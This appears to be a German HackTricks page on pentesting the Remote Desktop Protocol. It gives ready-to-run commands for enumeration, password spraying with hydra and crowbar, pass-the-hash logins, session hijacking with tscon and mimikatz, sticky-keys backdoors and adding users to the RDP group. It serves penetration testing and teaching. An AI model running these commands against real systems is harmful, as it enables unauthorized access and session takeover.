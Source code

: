 # 3389 - Pentesting RDP

{{#include ../banners/hacktricks-training.md}}

## Grundinformationen

Entwickelt von Microsoft, ist das **Remote Desktop Protocol** (**RDP**) darauf ausgelegt, eine grafische Schnittstellenverbindung zwischen Computern über ein Netzwerk zu ermöglichen. Um eine solche Verbindung herzustellen, wird von dem Benutzer Software des **RDP**-Clients verwendet, während der entfernte Computer Software des **RDP**-Servers betreiben muss. Diese Konfiguration ermöglicht die nahtlose Steuerung und den Zugriff auf die Desktop-Umgebung eines entfernten Computers, wodurch seine Schnittstelle im Wesentlichen auf das lokale Gerät des Benutzers gebracht wird.

**Standardport:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Aufzählung

### Automatisch
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
Es überprüft die verfügbaren Verschlüsselungen und DoS-Schwachstellen (ohne DoS für den Dienst zu verursachen) und erhält NTLM Windows-Informationen (Versionen).

### [Brute force](../generic-hacking/brute-force.md#rdp)

**Sei vorsichtig, du könntest Konten sperren**

### **Password Spraying**

**Sei vorsichtig, du könntest Konten sperren**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Mit bekannten Anmeldeinformationen/Hash verbinden
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Überprüfen Sie bekannte Anmeldeinformationen gegen RDP-Dienste

rdp_check.py von impacket ermöglicht es Ihnen, zu überprüfen, ob einige Anmeldeinformationen für einen RDP-Dienst gültig sind:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
## **Angriffe**

### Sitzungsdiebstahl

Mit **SYSTEM-Berechtigungen** können Sie auf jede **geöffnete RDP-Sitzung eines beliebigen Benutzers** zugreifen, ohne das Passwort des Eigentümers zu kennen.

**Geöffnete Sitzungen abrufen:**
```
query user
```
**Zugriff auf die ausgewählte Sitzung**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Jetzt sind Sie in der ausgewählten RDP-Sitzung und Sie werden einen Benutzer nur mit Windows-Tools und -Funktionen impersonieren.

**Wichtig**: Wenn Sie auf aktive RDP-Sitzungen zugreifen, werden Sie den Benutzer, der sie verwendet hat, abmelden.

Sie könnten Passwörter durch das Dumpen des Prozesses erhalten, aber diese Methode ist viel schneller und ermöglicht es Ihnen, mit den virtuellen Desktops des Benutzers zu interagieren (Passwörter in Notepad, ohne auf der Festplatte gespeichert zu werden, andere RDP-Sitzungen, die auf anderen Maschinen geöffnet sind...)

#### **Mimikatz**

Sie könnten auch Mimikatz verwenden, um dies zu tun:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Durch die Kombination dieser Technik mit **stickykeys** oder **utilman können Sie jederzeit auf eine administrative CMD und jede RDP-Sitzung zugreifen.**

Sie können RDPs suchen, die bereits mit einer dieser Techniken zurückdoorisiert wurden: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

Wenn sich jemand aus einer anderen Domäne oder mit **besseren Berechtigungen über RDP** an dem PC anmeldet, an dem **Sie Admin sind**, können Sie Ihr Beacon in seinen **RDP-Sitzungsprozess** injizieren und als er handeln:


{{#ref}}
../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md
{{#endref}}

### Hinzufügen eines Benutzers zur RDP-Gruppe
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatische Werkzeuge

- [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** ist ein Post-Exploitation-Framework, das in Powershell erstellt wurde und hauptsächlich dazu dient, den **Shadow**-Angriff auf Microsoft Windows-Computer zu automatisieren. Diese Schwachstelle (von Microsoft als Funktion aufgeführt) ermöglicht es einem entfernten Angreifer, **den Desktop seines Opfers ohne dessen Zustimmung zu sehen** und ihn sogar auf Anfrage zu steuern, indem er Werkzeuge verwendet, die nativ im Betriebssystem vorhanden sind.

- [**EvilRDP**](https://github.com/skelsec/evilrdp)
- Steuere Maus und Tastatur automatisiert über die Befehlszeile
- Steuere die Zwischenablage automatisiert über die Befehlszeile
- Erzeuge einen SOCKS-Proxy vom Client, der die Netzwerkkommunikation über RDP zum Ziel leitet
- Führe beliebige SHELL- und PowerShell-Befehle auf dem Ziel aus, ohne Dateien hochzuladen
- Lade Dateien zum/vom Ziel hoch und herunter, selbst wenn Dateiübertragungen auf dem Ziel deaktiviert sind

- [**SharpRDP**](https://github.com/0xthirteen/SharpRDP)

Dieses Tool ermöglicht es, Befehle im RDP des Opfers **ohne grafische Benutzeroberfläche** auszuführen.

## HackTricks Automatische Befehle
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
{{#include ../banners/hacktricks-training.md}}
